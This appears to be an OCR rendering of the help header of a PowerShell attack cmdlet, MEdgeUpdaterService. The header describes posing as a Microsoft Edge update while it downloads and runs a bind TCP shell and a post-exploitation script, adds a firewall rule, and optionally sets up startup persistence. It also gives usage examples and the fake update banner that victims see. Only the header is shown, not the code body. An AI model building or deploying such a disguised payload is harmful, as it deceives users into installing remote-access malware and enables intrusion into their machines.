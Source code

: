 ```powershell
<#
.SYNOPSIS
   Trigger sherpard (BindTCPshell) download\execution

   Author: @d3adzo (BindShell) | @r00t-3xp10it
   Tested Under: Windows 10 (19042) x64 bits
   Required Dependencies: Invoke-WebRequest {native}
   Optional Dependencies: netsh advfirewall {native}
   PS cmdlet Dev version: v2.2.14

.DESCRIPTION
   This cmdlet uses Social Engineering to trick target user into beliving he
   is installing a Microsoft Edge update while in background downloads the
   BindTCPshell and redpill post-exploitation auxiliary and adds a firewall
   rule to prevent client execution TCP connection warnings. Then executes
   the BindTCPshell in a background process (beacons home every 30 seconds).

.NOTES
   Attacker needs to know target ip address to be abble to connect to bind shell
   This cmdlet will be transformed to binary.exe before beeing deliver to target!
   Select -Firewall 'True' if you wish to Force firewall rule under UserLand privs!
   The Social Engineering binary accepts the use of parameters and arguments example:
   PS C:\> .\MEdgeUpdaterService.exe -PostExploit False -Firewall True -Persiste True

.Parameter PostExploit
   Accepts arguments: True, False (default: True)

.Parameter Firewall
   Accepts arguments: True, False (default: False)

.Parameter Persiste
   Accepts arguments: True, False (default: False)

.Parameter OutFile
   The destination executable file name (default: $Env:TMP\edge_browser_updater.exe)

.EXAMPLE
   PS C:\> .\MEdgeUpdaterService.ps1
   automatic exploitation (default settings)

.EXAMPLE
   PS C:\> .\MEdgeUpdaterService.ps1 -OutFile "$Env:TMP\payload.exe"
   Automatic download\execute of payload.exe BindTCPshell on %tmp%

.EXAMPLE
   PS C:\> .\MEdgeUpdaterService.ps1 -OutFile "$Env:TMP\payload.exe" -Persiste True
   Automatic download\execute of payload.exe BindTCPshell on %tmp% and create startup entry!

.EXAMPLE
   PS C:\> .\MEdgeUpdaterService.ps1 -OutFile "$Env:TMP\payload.exe" -PostExploit True -Firewall True
   Download 'payload.exe' + add firewall rule + download redpill.ps1 and execute the BindTCPshell ..
   
.OUTPUTS
   ########################################################################
   #         * Enjoy a superior level of protection and control *         #
   # Microsoft Edge has built-in features designed to give you a superior #
   # level of control over your data and to protect your privacy online.  #
   ########################################################################

   Please wait, preparing microsoft edge for updates ..
   Connecting to MicrosoftEdge.Store on TCP 6006 SSL ..
```